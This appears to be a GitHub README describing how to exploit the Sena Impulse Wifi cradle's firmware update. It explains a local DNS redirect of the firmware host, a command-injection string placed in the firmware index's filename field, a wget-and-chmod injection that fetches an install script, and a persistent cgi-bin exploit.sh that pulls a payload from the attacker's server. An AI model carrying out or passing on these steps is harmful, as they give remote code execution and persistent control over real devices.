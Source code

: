 # PWNing the Sena Wifi Cradle and its Derivatives
### (as tested on the Sena Impulse Wifi update part)

IMPORTANT: Make sure all text files got unix linefeeds

## Initial entering&PWNing (Sena Impulse):
    * Doing a local DNS redirect of ```firmware.sena.com``` to your own LAN ip.
    * Create a folder ```senabluetoothmanager```.
    * Create a folder ```WiFiCradle/impulse```
    * Create a file check.cdat with following content: ```
SENA
``` (yes, the linefeed at the end matters)
    * Download firmware.sena.com/senabluetoothmanager/Firmware and save it at the same folder on your local server.
    * Replace the filename after the last colon on Lines containing ```Impulse-v1.*.img``` with ```I";any_command_here```.  
    That line change allows injection of arbitrary commands.
    * Connect the Sena Impluse to the WiFi via the app or via manually doing the app commands.
## Getting Persistence
    * copy the provided install.sh and PWNa.zip to the root directory of your server.
    * rename install.sh to index.html (needed to bypass a quirk)
    * In the Firmware index file replace the filename after the last colon on Lines containing ```Impulse-v1.*.img``` with ```I";wget firmware.sena.com;chmod +x index.html```.
    * Trigger a firmware update. It will seemingly succeed or "fail". Instead it ran the injected command.
    * open https://IP_OF_SENA_IMPULSE/cgi-bin/index.html to install the persistence.
    * Reboot and you got a file under https://IP_OF_SENA_IMPULSE/cgi-bin/exploit.sh which downloads a payload.sh from the root of your webserver.
